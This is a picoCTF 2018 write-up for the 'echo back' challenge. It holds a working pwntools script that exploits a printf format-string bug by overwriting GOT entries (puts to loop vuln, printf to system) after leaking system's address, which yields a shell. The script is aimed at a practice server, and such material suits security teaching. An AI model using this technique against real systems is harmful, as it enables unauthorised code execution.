 echo back - Points: 500
===========

## Description

>This program we found seems to have a vulnerability. Can you get a shell and retreive the flag? Connect to it with nc 2018shell1.picoctf.com 26532

## Hint:

> * hmm, printf seems to be dangerous...
> * You may need to modify more than one address at once.
> * Ever heard of the Global Offset Table?

## Useful Information
```
$readelf -r echo_back|grep "puts\|printf\|system" && nm echo_back|grep vuln
0804a010  00000207 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a01c  00000507 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804a020  00000607 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
080485ab T vuln
```
Format String Bug detected :exclamation:

## Exploit

 **REQUIRE** :[Pwntools Python](https://github.com/Gallopsled/pwntools)

> 1.Loop in the vuln() for reuse FS Bug (Overwrite GOT puts with vuln address) 
> 2.Leak address of system (Read Got address of System with "%s")
> 3.Write in a function the leaked address of system in a GOT Entry of printf(read will not work)


```python
#!/usr/bin/python2.7
from pwn import *
import time,sys

puts=0x804a01c
printf=0x804a010
sys=0x804a020
vuln_l=(0x80485ab&0x0000ffff)
vuln_h=(0x80485ab>>16)
rem = remote("2018shell3.picoctf.com",26532)

rem.recv()
payload=p32(puts+2)+p32(puts)+p32(sys)+"%"+"%dx" % (vuln_h-12)+"%7$hn"+"%"+"%dx" % (vuln_l-vuln_h)+"%8$hn#%9$sX"
rem.sendline(payload)
sys=int(rem.recvuntil("X").split("#")[1][:4][::-1].encode("hex"),16)
sys_l=sys&0x0000ffff
sys_h=sys>>16
payload=p32(printf)+p32(printf+2)+"%"+"%dx" % (sys_l-8)+"%7$hn"+"%"+"%dx" % (sys_h-sys_l)+"%8$hn"
rem.sendline(payload)
rem.interactive()
rem.close()

```


